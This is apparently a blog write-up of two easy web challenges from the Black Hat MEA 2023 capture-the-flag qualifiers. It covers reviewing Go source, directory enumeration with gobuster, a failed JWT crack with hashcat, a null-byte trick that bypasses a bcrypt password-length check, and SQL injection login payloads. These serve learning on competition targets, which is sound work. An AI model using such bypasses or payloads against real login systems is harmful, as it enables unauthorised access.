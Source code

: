 ```yaml
---
title: Black Hat MEA 2023 Qualifications CTF Easy Web Challenges Walkthrough
date: 2023-10-10 10:30:00 +0200
categories:
  - ctf
  - blackhat
tags:
  - ctf
  - blackhat
  - web_applications
---
```


On October 8th, at 13:00 GMT, the Black Hat MEAQ Qualifications CTF commenced. Alongside my brilliant team, "creepers_249," I actively participated, putting forth our best efforts to secure those elusive flags.

I collaborated with my colleague Senku, focusing on the web category, and dedicated ourselves to conducting thorough reconnaissance and gaining a deep understanding of the applications.

In this blog post, I will recount our successful solutions to two of the straightforward web challenges.

## Authy

**Difficulty:** Easy

**Category**: WEB

### Description

I have just learned Golang and trying to build a small authentication platform with it. It's a simple API so it should be secure right ?

The source code in golang is included in the challenge. 

After review it I found out the most intersring parts as foolowing:

```go
func Registration(c echo.Context) error {
//snip 
	//hashing password (even it's a CTF, stick to the good habits)
	hash, err := bcrypt.GenerateFromPassword([]byte(user.Password), 5)
	if err != nil {
		resp := c.JSON(http.StatusInternalServerError, helper.ErrorLog(http.StatusInternalServerError, " Error While Hashing Password", "EXT_REF"))
		return resp
	}
//snip 
}
func LoginController(c echo.Context) error {
//snip 
if len(password) < 6 {
	flag := os.Getenv("FLAG")
	res := &Flag{
		Flag: flag,
	}
	resp := c.JSON(http.StatusOK, res)
	log.Info()
	return resp
}
//snip
```

In the `Registration` function, the password is hashed by converting the provided password into a bcrypt hash. And notice this comment "**hashing password (even it's a CTF, stick to the good habits)**"

On the other hand, the flag is only displayed if the length of the password is less than 6 characters in the `LoginController` function. Additionally, it's worth mentioning that neither the `LoginController` nor the `Registration` functions are executed if a password with less than six characters is provided, resulting in an error message being displayed.

Application is running SQLite3 and use JWT to implements its cookies. Also, in the source code, there are two endpoints `/registration` and `/login`. So to be sure, I ran `gobuster` in directory mode.

```bash
$ gobuster dir -u http://abae0e83357c697e1b908.playat.flagyard.com/ -w /opt/wordlist/Hacking-APIs-main/Wordlists/api_superlist -t 2  
0 --timeout 30s    
===============================================================  
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://abae0e83357c697e1b908.playat.flagyard.com/  
[+] Method:                  GET  
[+] Threads:                 20  
[+] Wordlist:                /opt/wordlist/Hacking-APIs-main/Wordlists/api_superlist  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Timeout:                 30s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/login                (Status: 405) [Size: 33]  
/registration         (Status: 405) [Size: 33]  
Progress: 2298 / 2299 (99.96%)  
===============================================================  
Finished  
===============================================================
```

I then proceeded to interact with the application as intended, registering an account and subsequently logging in.

![Image](/assets/img/uploads/20231010041950.png)

![Image](/assets/img/uploads/20231010042049.png)

![Image](/assets/img/uploads/20231008165745.png)

Then I tried to crack JWT secret key, but I couldn't get anything.

```bash
$ sudo hashcat -a 0 -m 16500 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiIiLCJsYXN0bmFtZSI6IiIsInVzZXJuYW1lIjoic2t1bGxo  
YXQifQ.KD7nIK_Mg7O9yjotg6BB0NQeziv8TWRhieWtBbMavoo' /opt/wordlist/rockyou.txt  --show  
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmaXJzdG5hbWUiOiIiLCJsYXN0bmFtZSI6IiIsInVzZXJuYW1lIjoic2t1bGxoYXQifQ.KD7nIK_Mg7O9yjotg6BB0NQez  
iv8TWRhieWtBbMavoo:
```

After being stuck for a while 🤣, I read about Becypt hash algorithm and its implementation, with idea in my mind that in cryptography most of the time the problems are in implantation of algorithm not the algorithm itself. 

![Image](/assets/img/uploads/20231010042618.png)

And indeed the hash in the application starts with `$2a$`, So I looked to null byte in Unicode and it finally works!

![Image](/assets/img/uploads/20231008224010.png)

![Image](/assets/img/uploads/20231008224302.png)


## Warm Me Up

**Difficulty:** Easy

**Category**: WEB

### Description

The most secure login page you will ever come across.

The application is a simple login panel that requires a username, password, and OTP (One-Time Password) code for login. I started by examining the requests in Burp Suite. I noticed that it uses JWT and can be decoded to reveal the OTP code.
![Image](/assets/img/uploads/20231008225230.png)

I initiated a `gobuster` scan on the application:
```bash
$ gobuster dir -u http://abae0e83357c697e1b908.playat.flagyard.com/ -w /opt/wordlist/SecLists/Discovery/Web-Content/raft-small-d  
irectories.txt -t 20 --timeout 30s

/login                (Status: 200) [Size: 1898]  
/flag                 (Status: 200) [Size: 41]
```

When trying to access `/flag`, it displays the message **"You must be logged in to access the flag."**

I discovered that when you input a single quote `'` in either the username or password field, it returns a 500 response, indicating a potential SQL injection vulnerability. So, I tried some basic queries with the OTP supplied from the cookie, and voilà! It worked and displayed the flag.

**Payload:**

> *username:* `admin' UNION ALL SELECT NULL,NULL--`
> *password:* `' union select null--`

![Image](/assets/img/uploads/20231010044127.png)

![Image](/assets/img/uploads/20231010044024.png)

At the conclusion of the competition, with unwavering dedication from all team members, we achieved a commendable ranking of **#168**. Inshallah, we are optimistic about making it to the finals of Black Hat MEA in November.
